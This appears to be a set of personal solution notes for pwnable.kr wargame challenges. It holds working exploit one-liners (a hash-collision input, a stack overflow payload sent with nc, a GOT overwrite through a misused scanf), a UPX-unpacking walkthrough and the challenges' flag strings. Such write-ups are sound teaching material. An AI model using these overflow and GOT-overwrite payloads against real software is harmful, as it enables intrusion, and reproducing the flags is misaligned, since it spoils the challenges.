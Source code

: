 
collision: `python -c "import sys; sys.stdout.write('\xc8\xce\xc5\x06'*4 + '\xcc\xce\xc5\x06')" | xargs ./col`
 - daddy! I just managed to create a hash collision :)


bof: `(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'"; cat -) | nc pwnable.kr 9000`
 - Note: the `cat -` is necessary for keeping the connection open and listening
   for our input.
 - `cat flag`
 - daddy, I just pwned a buFFer :)

flag:
 - UPX...? sounds like a delivery service :)

```bash
curl http://pwnable.kr/bin/flag > flag`

# Run strings on it and see that a line tells us it is packed by UPX
strings flag -n 10 | less

# unpack it 
upx -d flag

# string again for the flag
strings -n 10 flag | grep ":)$"
```




#play
 - We see ASLR is enabled `cat /proc/sys/kernel/randomize_va_space`.
   [More](https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/)


#passcode

Key: Sorry mom.. I got confused about scanf usage :(

Solution: `python -c 'import struct; print "\x41"*96 + struct.pack("<I", 0x0804a018) + "134514147"' 2> /dev/null`

Idea: We want to exploit the Global Offset Table (GOT) to make the call to
`exit` (in the login function) actually call the line `system("/bin/cat
flag")`. Fortunately, their use of scanf allows us to write to an arbitrary
location in memory because the value of passcode1 is interpreted as a pointer
by scanf. 

To make passcode1 point where we want it, we have to use residual data on the
stack left by the call to the welcome function. After some stack examination we
see that the location of the last 4 bytes of the name array are the same
location used for password one. Thus, we need to put our pointer there.

```
import struct; print "\x41"*96 + struct.pack("<I", 0x0804a018)
```

But what should we point to? Here's where the GOT comes in. We use the
following command to figure out the dynamic relocations of the exit function:
`objdump -R passcode`. In this case, it is at `0x0804a018`. We want to write a
new value to this address (done as part of the vulnerable scanf) to cause the
call to exit to jump to a different bit of code. A bit of disassembly
examination tells use that 0x80485e3 would be a good location as that is the
start of the call to system in the login function. 
